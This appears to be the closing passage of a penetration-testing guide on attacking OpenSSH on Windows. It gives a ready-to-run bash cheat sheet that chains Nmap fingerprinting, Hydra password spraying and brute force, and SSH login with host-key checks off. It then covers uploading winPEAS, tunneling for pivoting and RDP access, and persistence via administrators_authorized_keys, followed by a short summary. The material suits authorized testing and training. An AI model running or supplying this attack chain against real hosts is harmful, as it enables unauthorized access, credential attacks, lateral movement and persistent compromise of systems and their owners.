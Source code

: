 ## Minimal cheat sheet (one-screen flow)
```bash
# 1) Discover/fingerprint
export TARGET=10.10.10.10
nmap -sV -sC -p22 $TARGET
nmap --script ssh2-enum-algos,ssh-hostkey -p22 $TARGET
nmap --script ssh-auth-methods --script-args="ssh.user=administrator" -p22 $TARGET

# 2) Password spray / brute
hydra -L users.txt -p Winter2024! -f -V -t 3 ssh://$TARGET
# or
hydra -L users.txt -P passwords.txt -f -V -t 4 ssh://$TARGET

# 3) Login
ssh -o StrictHostKeyChecking=no user@$TARGET
# or force PowerShell
ssh -t user@$TARGET powershell

# 4) Transfer tools
scp ./winPEASx64.exe user@$TARGET:C:/Windows/Temp/winPEASx64.exe

# 5) Pivot
ssh -N -L 3389:127.0.0.1:3389 user@$TARGET     # RDP via local 3389
ssh -N -D 1080 user@$TARGET                    # SOCKS for proxychains

# 6) Key persistence (admin)
ssh-keygen -t ed25519 -f ~/.ssh/winkey -N ""
# then on target: write key to C:\ProgramData\ssh\administrators_authorized_keys and fix ACLs (icacls)
```

## Summary
- Targeting OpenSSH (even on Windows) is primarily about careful enumeration and credential access, not remote exploits.
- Use Nmap to fingerprint the service and auth methods, then execute controlled, policy-aware credential attacks with Hydra/Ncrack.
- With valid creds, SSH gives you a stable Windows shell, easy file transfer, and powerful tunneling for lateral movement.
- If you gain higher privileges, persist via authorized_keys with correct Windows ACLs.
- Keep noise low, monitor lockout risks, and leverage SSH tunneling to expand access safely and effectively.